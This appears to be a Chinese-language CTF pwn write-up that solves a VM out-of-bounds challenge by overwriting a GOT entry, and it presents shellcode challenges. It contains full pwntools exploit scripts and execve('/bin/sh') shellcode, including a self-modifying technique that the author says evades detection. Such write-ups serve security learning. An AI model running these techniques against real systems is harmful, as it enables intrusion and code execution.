



by Maple
ezvm 简单虚拟机
慢慢来看的话其实很简单，先贴exp
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)
#offset = -0xf980
#7：末字符++
#8：末字符--
#5：负溢出
# printf = 0x606f0
# system = 0x50d70
def sub():
return p8(0x4)
def push(x):
return p8(0x1)+p8(x)
def store(x):
return p8(0x5)+p8(x,signed = True)
def load(x):
return p8(0x6)+p8(x,signed = True)
def add():
return p8(0x3)
payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)
p.sendlineafter("length:",str(len(payload)))
p.sendline(payload)
p.interactive()
源码分析
1先看看ida的逆向，这个直接问ai其实就行
- a1代表的栈：
- a1+0~127:全局变量数据存储(LOAD/STORE)
- a1+129~255:操作存储
-
a1+256:栈深度
-
输入
0x1和x:将x压入栈中 -
输入
0x2：将栈顶的数据弹出 0x3:栈中弹出两个数据，然后将相加得到的数值压入栈顶0x4:栈中弹出两个数据，然后将相减得到的数值压入栈顶0x5:输入一个地址，将栈顶的元素弹给指定地址0x6:输入一个地址，将指定地址的元素压到栈顶- ......
开始找问题
这里可以注意到v3是int型，但是这里偏移的提取是char类型，可以写入负数实现越界读写
最大范围是0x80，这个在压栈函数里可以看到，所以可以越界写0x80长度的地址

那么看一下往上0x80是什么
 |
|---|
我们写入的字符串的地址是0xA0,0xA0-0x80=0x20，恰好可以写到printf@got,这个时候就很好想了，改got表，执行system(/sh) |
exp分析：
printf = 0x606f0
system = 0x50d70
这里直接打印出来libc中两者的位置，后面更改做参考
payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
- 将
0xf0-0x70（最后字节）压入栈顶 - 加载到
-0x80偏移处(printf地址)加载出当前的最低字节压栈 - 执行减法并压栈，即
实际地址-offset
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
这两步同理，改了低二字节和低三字节
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
此时虚拟栈的结构里：低三字节，低二字节，最低字节
所以要倒序写入，这样就完成了改写printf的got表地址
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)
原本的操作是输出栈中的内容，那么我们把/sh写入栈中，就可以执行system(/sh)
OVER
shell_for_another_shell
不是特别会，等会了再回来补一下
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)
shellcode = """
xor eax, eax
add r13, fs:0x0
lea r15, [rip]
sub r15, 0x15
add r13, 0x28c0
mov r14, r13
add r14, 0x222200
lea r14, [r14]
mov rbp, r14
mov rsp, r14
add r13, 0x40d70
add r13, 0x10000
xor rax, rax
mov rdi, r15
add rdi, 0x200
xor r15, r15
call r13
"""
shellcode = asm(shellcode)
payload = shellcode.ljust(0x200-3,b'/')+b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
自改变shellcode
校赛的shell_for_shell打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下
先贴exp：
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)
#----恢复栈帧------
shellcode = """
mov rbp, 0x404500
mov rsp, rbp
lea r15, [rip+0xe00]
sub r15, 0xe16
mov rdi, r15
mov rsi, 0x1000
mov rdx, 0x7
mov rax, 0x401070
call rax
mov si, word ptr [r15 + 0x100]
add si, 0x101
mov word ptr [r15 + 0x100], si
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
print(payload)
p.send(payload)
p.interactive()
这边分段分析一下
恢复栈+调用mprotect改权限
mov rbp, 0x404500 ;栈底恢复
mov rsp, rbp ;rbp赋给rsp，恢复栈顶
lea r15, [rip+0xe00] ;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
sub r15, 0xe16 ;额外减0x16，退回最开始的地址（之前总共0x16字节的汇编程序）
mov rdi, r15 ;rdi被传递,这里即addr = rdi
mov rsi, 0x1000 ;len = 0x1000
mov rdx, 0x7 ;prot = 7
mov rax, 0x401070 ;rax = 0x401070(对应mprotecct)
call rax ;call mprotect指令
这里将栈底恢复为0x404500(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长

压栈构造execve的参数，准备执行shellcode
这里构造了execve("/bin/sh",["sh",NULL],NULL)
mov si, word ptr [r15 + 0x100] ;r15的值+0x100，赋给si（rsi，16位模式)
add si, 0x101 ;再将si加上0x101
mov word ptr [r15 + 0x100], si ;修改后的si存给r15+0x100的内存位置
/*这里是为了给后面syscall找个确定位置，顺便自加一*/
push 0x68 ;压入"h"
mov rax, 0x732f2f2f6e69622f ;压入/bin///s到rax中
push rax ;压入rax中的值
mov rdi, rsp ;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve
push 0x1010101 ^ 0x6873 ;异或的值压栈，避免显式空字节
xor dword ptr [rsp], 0x1010101 ;异或解密栈顶4字节，得到'sh\x00'
xor esi, esi /* 0 */
push rsi ;作为字符串的\x00
push 8 ;压入8，后面计算‘sh\x00'字符串地址用
pop rsi ;将8弹给rsi
add rsi, rsp ;rsi=8+rsp，指向'sh\x00'
push rsi ;压入sh\x00
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve ;等价于push 0x3b
pop rax ;弹给rax
写入syscall
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
这里是题目问题，先随便写一个代码在这里，消除第一字节为\x00的影响
写入了\x90(nop)指令填充
接下来\x0e\x04在第100字节那里了，然后就是40e+101返回给rsi，变成了50f,也就是\x0f\x05(syscall的机器码)
之后又把这个写回去，跟pop rax续上，执行完整的shellcode